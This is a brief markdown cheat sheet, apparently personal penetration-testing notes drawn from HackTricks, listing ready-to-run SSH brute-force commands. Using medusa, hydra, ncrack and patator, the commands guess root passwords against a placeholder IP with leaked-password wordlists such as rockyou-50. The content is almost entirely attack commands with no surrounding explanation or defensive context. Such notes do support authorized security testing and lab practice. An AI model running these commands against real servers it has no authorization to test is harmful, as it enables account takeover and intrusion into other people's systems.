 # SSH brute force

## command shortlist from hacktricks
```bash
medusa -u root -P 500-worst-passwords.txt -h <IP> -M ssh
hydra -l root -P passwords.txt [-t 32] <IP> ssh
ncrack -p 22 --user root -P passwords.txt <IP> [-T 5]
patator ssh_login host=<ip> port=22 user=root 0=/path/passwords.txt password=FILE0 -x ignore:mesg='Authentication failed'
```

## old key exchange algorithms
```bash
patator ssh_login host=$IP port=22 user=root 0=/usr/share/seclists/Passwords/Leaked-Databases/rockyou-50.txt password=FILE0 -x ignore:mesg='Authentication failed'
```
